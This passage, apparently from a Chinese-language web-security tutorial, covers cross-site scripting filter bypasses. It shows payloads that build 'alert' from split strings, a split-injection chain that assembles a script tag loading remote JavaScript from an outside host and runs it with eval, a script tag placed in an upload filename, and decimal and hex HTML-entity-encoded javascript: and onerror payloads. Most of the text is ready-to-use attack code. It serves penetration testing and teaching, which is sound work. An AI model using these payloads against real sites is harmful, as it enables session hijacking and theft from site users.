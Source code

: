 利用top

```html
<script>top["al"+"ert"](`xss`);</script>
<script>top["al"+"ert"]("xss");</script>
```

#### 拆分法

当 Web 应用程序对目标用户的输入长度进行了限制时，这时无法注入较长的[xss攻击](https://so.csdn.net/so/search?q=xss攻击&spm=1001.2101.3001.7020)向量，但是特定情况下，这种限制可以通过拆分法注入的方式进行绕过

```php
<script>a='document.write("'</script>

<script>a=a+'<script src=ht'</script>

<script>a=a+'tp://note163.com/xs'</script>

<script>a=a+'s.js></script>")'</script>

<script>eval(a)</script>
/*document.write("<script src = http://note163.com/xss.js></script>")*/
```

#### 上传文件构造xss

上传普通文件更改文件名为xss语句   <script>alert(443)</script>.gif/png

#### 编码绕过

**浏览器**整个解析顺序为3个环节：HTML实体解码 —>URL解码 —>JS解码（只支持Unicode）

##### HTML 实体编码

 我们可以将DOM节点中的内容转化为HTML实体，因为解析HTML之后建立起节点，然后会对DOM节点里面的HTML实体进行解析。HTML 编码主要分为10进制和16进制，格式为以 `&#` 开头以分号 `;` 结尾（也可以不带分号）。

```html
<!--
<a href=javascript:alert("xss")>test\</a>
-->
<!--十进制-->
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>test</a>
 
<!--十六进制-->
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
 
<!--也可以不带分号-->
<a href=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x22&#x78&#x73&#x73&#x22&#x29>test</a>

<!--<img src=x onerror=alert("xss")>-->
<!--十进制-->
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>
 
<!--十六进制-->
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>
 
<!--也可以不带分号-->
<img src=x onerror=&#x61&#x6C&#x65&#x72&#x74&#x28&#x22&#x78&#x73&#x73&#x22&#x29>
```
